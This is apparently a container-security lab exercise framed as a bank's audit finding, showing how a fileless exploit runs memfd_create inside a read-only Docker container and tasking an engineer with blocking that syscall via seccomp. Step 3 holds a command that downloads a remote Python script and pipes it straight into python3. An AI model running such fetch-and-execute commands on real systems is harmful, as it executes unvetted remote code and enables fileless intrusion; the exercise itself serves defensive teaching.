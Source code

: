 # WhizCash Bank

WhizCash Bank had its annual security audit. The result was forwarded to Alice, a DevSecOps Engineer in WhizCash Bank.

# Result of the External Security Audit

After the external security audit of the bank's infrastructure, a security vulnerability was found. Although the containers were started with the read-only flag, an auditor was able to execute a syscall.

## How does the exploit work

The auditor gives Alice the following instructions on how the exploit can currently be executed:

> **_NOTE:_**  To see what happens, Alice has to activate an audit profile for seccomp provided here [audit.json](./profiles/audit.json).

1. Starting a container with read-only file system and audit logs activated:

        sudo docker run --name fileless -d -it --rm --read-only --security-opt seccomp=[path-to-audit-json]/audit.json python:3.9.1

2. Run the following command to see which syscalls are executed

        sudo journalctl -f | grep audit

3. Run the exploit provided by the auditor:

        docker exec -it fileless /bin/bash
    
    and execute the exploit inside the container:

        curl -s https://sec4dev.s3.eu-central-1.amazonaws.com/output.py | python3

In the journalctl log you should see a syscall with the id 319:

    Oct 26 18:47:40 VM-204e5f1e-327f-4a61-a86b-dbf904cf8fa8 audit[53400]: SECCOMP auid=4294967295 uid=0 gid=0 ses=4294967295 subj=? pid=53400 comm="python3" exe="/usr/local/bin/python3.9" sig=0 arch=c000003e syscall=319 compat=0 ip=0x7fa1b4f78347 code=0x7ffc0000

## Alice's task

Alice is responsible for closing this security gap. In order to test the vulnerability, the auditor has provided Alice with a test exploit. She should find a way to prevent the syscall memfd_create so that the security gap can be closed.